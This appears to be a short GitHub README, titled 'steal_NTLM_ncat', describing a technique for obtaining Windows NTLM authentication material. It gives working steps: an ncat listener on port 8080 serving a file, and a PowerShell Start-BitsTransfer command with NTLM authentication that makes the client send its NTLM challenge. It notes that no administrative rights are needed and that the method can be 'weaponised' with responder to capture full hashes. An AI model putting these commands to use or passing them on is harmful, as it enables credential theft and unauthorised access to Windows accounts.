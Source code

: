 # steal_NTLM_ncat

Can be easilly weaponised with something like "responder" that can do a full "talk" for challanges.

Rules:

* No administrative rights needed.

* Need a way to serve HTTP headerS back uppon request, NCAT is used in this example.

* Need a native windows http client, powershell is being used in this example.





1. Start a CMD window and type:
 `ncat -l 8080 --keep-open < hello.html`
 **[No need to allow on firewall prompt]**

2. Start a Powershell window and type:

`Start-BitsTransfer -Authentication NTLM -Source http://127.0.0.1:8080 -Description http://127.0.0.1:8080`

3. Result:
You got the first challange that the client sends before the full NTLM hash



Can be changed to Negotiate as well, but didn't see the point
base
